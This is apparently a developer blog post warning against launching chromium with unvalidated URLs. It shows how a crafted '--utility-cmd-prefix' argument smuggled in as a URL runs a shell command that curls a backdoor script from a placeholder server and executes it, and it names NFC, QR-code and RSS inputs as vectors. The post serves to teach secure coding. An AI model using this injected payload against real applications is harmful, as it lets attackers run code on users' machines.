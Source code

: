 ```yaml
---
layout: post
title:  "Do not run chrome from your app!"
published: true
author: nemanjan00
image: /assets/chrome_malware_warnings.jpg
hero_image: /assets/chrome_malware_warnings.jpg
hero_darken: true
show_sidebar: true
---
```


This is example how your user can be hacked if you misuse chromium to open web links.

## Attack

What I have seen people do is something like this:

```c
url = "someurl"; // this is just pseudo-code
execlp("chromium", "chromium", url);
```

What that does is it runs this:

```bash
chromium someurl
```

And if they get something like this as parameter:

```
url = `--utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'`
```

What happens is user just got compromised...

```
chromium --utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'
```

To understand how big of issue this is I suggest reading [my post about command arguments](https://nemanja.top/2022/05/01/why-argv-sucks-for-users).

## Real danger example 1 (NFC/QRcode)

Now imagine you have just implemented NFC or QRcode reader...

You did not check url format, you passed it to chromium as url...

![](/assets/rfid.png)

## Real danger example 2 (RSS reader/Mail client)

What happens if you want to open link you just took from XML or JSON and you trust it is valid link?

You just pass it to chromium?

